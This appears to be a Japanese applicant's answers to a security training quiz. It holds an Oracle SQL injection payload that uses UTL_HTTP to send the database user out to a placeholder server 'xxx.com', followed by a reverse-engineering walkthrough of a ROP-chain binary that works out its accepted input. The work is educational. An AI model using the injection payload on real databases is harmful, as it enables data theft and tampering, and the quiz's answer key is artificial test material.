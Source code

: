 ```
%00id=10||UTL_HTTP.request(‘xxx.com:80’||(SELECT user FROM DUAL)--
```

　xxx.comというのは、テスターのサーバーであり、80番ポートから命令を受け取っている。%00を頭に挟むことで、ファイヤーウォールを回避することができる。SELECT user FROM DUALでは、表にはないが、データベースの中にある情報を抜く時に使う。<br>  なぜ、このテストを選択したのか、というと、他のsqlのテスト、例えばunionを使うような攻撃などは、脆弱性があっても、エラーを返すというデータベース側からの情報がないと、確かめることができないものであるからである。<br>  もし、この攻撃が通って、サーバーの情報を送るようになったら、攻撃者が同じように応用ができる、ということを示唆する。これでデータベースの情報を取得した上で、insertやupdateを使ってデータベースを書き換えたりすることができる。


<br>**選択問題【8】：(ROPチェーン)以下のダンプはあるプログラムのobjdumpの結果である。このプログラムが行っていることを調べ、その結果を記述してください。完全には分からなくても構いません ので、理解できたところまでの情報や調査の過程で使ったツール、感じたこと等について記述してください。**

結論：c@Np2Ol6を入力すると、正常終了するプログラム

1.前段

　まず、個人的な問題なのではあるが、intel表記の方がわかりやすいので、distorm３ライブラリを使って、pythonでバイナリを編集した。<br>  4000fcまでをみると、スタックに特定のアドレスをpushしているか、もしくはraxに0x63391a67251b1536をraxに保存した上で、それをスタックにpushしている。一般的に、スタックに後に積まれたものから先に実行されるものであり、今回もSyscallを示す400119が三回呼ばれている。ということは、カーネルから関数が三回呼び出されているということである。システムコールはそれぞれ番号を割り振られており、raxに格納された関数を対応することで、特定のシステムコールを呼び出す仕組みである。<br>  そこで、syscallの手前で、raxに一体どういう関数が呼び出されているのかというものを見てみようと思う。<br>  最初1回目は、raxに0が格納されている。つまり、システムコールとしてread()関数を読み込んでいることがわかる。<br>  このシステムコールが、第一引数として、０を読み込んでいると考えると、このリード関数は標準入力、つまりコマンドライン上でなにがしかユーザーの入力を受けるものである。そして、第三引数で8を受け取っているところを見るに、8バイトまで入力を受け付けるということがわかる。<br> 実際、システムコールの引数は、それぞれ第一引数から、rdi、rsi、rdx、r10、r10、r8、r９となる。今回のシステムコールでは、それぞれ０、スタックのポインタ、８となっている。read関数では使わないのに、なぜr10をpopしているのか、疑問である。<br> 次のシステムコールは、raxに3cが送り込まれている。これは16進数表記にすると60であるので、ここではexit()関数が読まれていることがわかる。<br>  さらに、三つ目のものは、特にraxを格納していないので、一回目か二回目の分岐先である、ということがわかる。つまり、ここまででわかるのは、実際に8バイトコマンドラインから受け取り、そのあとでプログラムを終わらせている、ということである。

2.後段

　ここで、実際にこのファイルを作ってみたい。nasmを使って、課題をアセンブラファイルに編集する。実際、このAT&T表記から、Intel表記に変え、asm.oファイルとして編集した。編集するにあたり、スタックに積まれるメモリアドレスは、最初に積まれた順番から、func1、func2（つまり0x400119はfunc1、0x400106はfunc2）として編集した。<br>
　編集し、コマンドラインでこのファイルを実行した結果、確かにコマンドラインから受け取った。そして、8バイト以上のデータを流すと、その余った分は、次のコマンドラインのための文字列として処理された。つまり、このファイルの実行の際、aaaaaaaaaとaを9個入れると、その余りの一文字がスクリプトとして解釈されてしまう。<br>
　そして、このファイルを、GDBをつかって、実際にどのように動いているのか、調べてみた。<br>
　400080から、4000fcまででスタックを積み、そして次の命令であるretからスタック上の命令が実行され、そして標準入力を受けるまでは、前段の見立てと一緒であった。スタックに後から積まれた順に、ripレジスタがそのアドレスに移っていき、実行されていく。しかし、その後また違う挙動をする。<br>
　というのは、最初にrbpポインタに0xffffffffffffffe0を保存した後、rcxレジスタに7を格納している。ということは、ここでforループに準ずる操作があるということになる。<br>
　その後、xorという、排他的論理和の命令を実行する。rsiレジスタの位置とカウンタ分の文字を足すと、そのアドレスにあるのは、先ほど入力した8バイトの文字列の、一番最後に入力したものである。これを、0x55をつかって排他的論理和を取り、その場所に変換したものを格納する。また、この時にrcxの、カウンタがデクリメントされる。その操作の後に、r10にraxをpopする命令を格納した後、先ほどのrbpをrspに足して、またxorの処理の先頭に戻している。これを、7回続ける。<br>
　7回続けると、rcxが0になり、従ってzfも0になり、ジャンプしない。すると、ループ内で格納されたpop raxという関数が実行され、ループに突入するための命令であるadd rsp rbpを格納する。これを察するに、ここでレジスタは、分岐する命令の、実行されない方を格納することで、条件分岐を成立させていることがわかる。<br>
　add rsp rbp命令はraxに格納され使われていないので、そのままスタック内の命令が実行される。そしてその後、raxに、0x63391a67251b1536という文字列が格納される。この文字列と入力した文字列を比べて、raxに3cを入れてexit()を呼び出した上で、jne 0x40012cと分岐させる。<br>
　もし、先の8バイト文字列を打つ段階でaaaaaaaaと打ったとしよう。すると、先のraxに格納された0x63391a67251b1536とは違うのでzfは1になる。Jneでは、zfが0ではないので、r10にsyscallの入ったアドレスを格納し、rdiに1を入れて、その関数を終わらせる。つまり、第一引数に1を入れ、異常終了するのである。<br>
　もし、zfが0だった時をたどると、そのままsyscallを呼び出し、正常に終了させていることがわかる。そうさせるためには、cmpの命令で、0x63391a67251b1536と同じものを、xorの命令を通してコマンドラインに打ち込む必要がある。<br>
　そこで、0x63391a67251b1536の排他的論理和をとって、asc2コードと比較させてみる。エンディアンを考慮してみると、コマンドラインにc@Np2Ol6という、8バイトの文字列を入れるといいことになる。<br>
　実際にそのように入力してgdbで見てみると、確かに正常終了する分岐に行っていることがわかる。実際に実行すると、空欄の列を一行表示した。おそらく、ctfでここにフラグが入っているのだろうと想定される。<br>


<br>**選択問題【11】：((サーバーサイド?）の脆弱性の紹介とその攻撃検知)2015 年に発行された CVE の内、あなたが興味を持った ”サーバに存在した” 脆弱性について1つ提示してください。その脆弱性を悪用した攻撃を検知する方法について詳細に記述してください。また、興味を持った理由を記述してください。**
